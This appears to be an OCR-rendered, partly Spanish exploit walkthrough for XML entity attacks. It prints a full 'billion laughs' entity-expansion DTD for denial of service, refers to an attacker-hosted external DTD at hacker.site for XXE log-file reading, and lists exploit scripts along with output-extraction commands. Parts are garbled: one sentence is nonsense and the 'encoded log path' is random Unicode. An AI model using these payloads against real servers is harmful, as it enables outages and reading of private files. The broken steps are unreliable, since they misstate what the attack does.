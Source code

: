 > \[Nota] Asegúrese de reemplazar hacker.site con la dirección IP de su máquina atacante.

file: evil\_remote\_xee.dtd

```xml
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
```

Ejecute un ataque XXE para leer el archivo de registro y claro te inútilxt.

> \[NOTA] Debido a algunas restricciones, para prevenir ataques XEE, URLs largas podrían romper la carga útil. Para eludir esta limitación, podemos mover la carga útil en otro dtd externo como lo hicimos antes.

Encode the log path:

```bash
%7B%5B_%C4%BF.%C3%B2.%C4%9D.%C5%9B_%5D%7D%2F%F0%9D%95%86%E3%8E%8E%E2%80%A6%C3%A0%E2%80%A2d%F0%9D%93%B8s.%E3%8F%92
```

Extraer el contenido del resultado. Utilizar awk o gawk, depende del sistema:

```bash
gawk 'match($0, /<b>XXEME (.*)<\\\/b>\s/, m) { print m[1] }'
```

Eliminar JSON escapando characters:

```bash
sed 's/\\\//\//g'
```

Useful Files:

```
exploit.sh
exploit_xxe.sh
external_dos.dtd
evil_remote_xee.dtd
```

\*XEE DoS \*

```bash
file: exploit.sh
./exploit.sh
```

\*XXE log file extraction \*

```bash
file: exploit_xxe.sh
./exploit_xxe.sh
```
